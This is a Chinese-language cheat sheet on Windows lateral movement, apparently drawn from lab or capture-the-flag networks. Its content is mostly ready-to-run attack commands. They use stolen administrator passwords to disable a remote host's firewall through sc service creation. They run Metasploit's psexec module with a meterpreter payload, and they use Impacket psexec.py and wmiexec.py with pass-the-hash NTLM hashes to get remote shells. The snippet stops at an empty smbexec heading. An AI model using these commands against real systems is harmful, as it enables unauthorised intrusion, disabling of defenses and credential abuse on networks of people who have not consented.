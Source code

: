 ### sc（系统服务）

```bash
# 系统服务关闭防火墙
net use \\192.168.138.138\ipc$ "@Abc807723" /user:"administrator"
sc \\192.168.138.138 create unablefirewall binpath= "netsh advfirewall set allprofiles state off"    # 创建服务
sc \\192.168.138.138 start unablefirewall    # 立即启动服务
```

### psexec

**psexec的使用前提：**

- 对方主机开启了 admin$ 共享，如果关闭了admin$共享，会提示：找不到网络名
- 对方未开启防火墙或放行445端口
- 如果是工作组环境，则必须使用administrator用户连接（因为要在目标主机上面创建并启动服务），使用其他账号(包括管理员组中的非administrator用户)登录都会提示访问拒绝访问。
- 如果是域环境，即可用普通域用户连接也可以用域管理员用户连接。连接普通域主机可以用普通域用户，连接域控只能用域管理员账户。

```bash
# 使用msf自带的利用模块
use exploit/windows/smb/psexec
set rhosts 192.168.138.138
set SMBDomain SUN
set SMBUser administrator
set SMBPass dc123.com
# set SMBPass c8c42d085b5e3da2e9260223765451f1:e8bea972b3549868cecd667a64a6ac46
set payload windows/meterpreter/bind_tcp
set rhost 192.168.138.138
run
```

**impacket中的psexec.py**

```bash
python psexec.py xiaorang.lab/Hacker:'Hacker123!'@WIN2019.xiaorang.lab -dc-ip 172.22.6.12 -codec gbk
python psexec.py -hashes :fabd7531c3c36b8200cb388bf5963fde xiaorang.lab/WIN2016\$@172.22.8.15 -codec gbk
```

### wmiexec

**wmiexec的使用前提：**

- 远程主机的 WMI 服务为开启状态（默认开启）
- 防火墙放行135端口

PTH+wmiexec拿shell

```bash
python wmiexec.py -hashes :fabd7531c3c36b8200cb388bf5963fde xiaorang.lab/WIN2016\$@172.22.8.15 -codec gbk
```

### smbexec
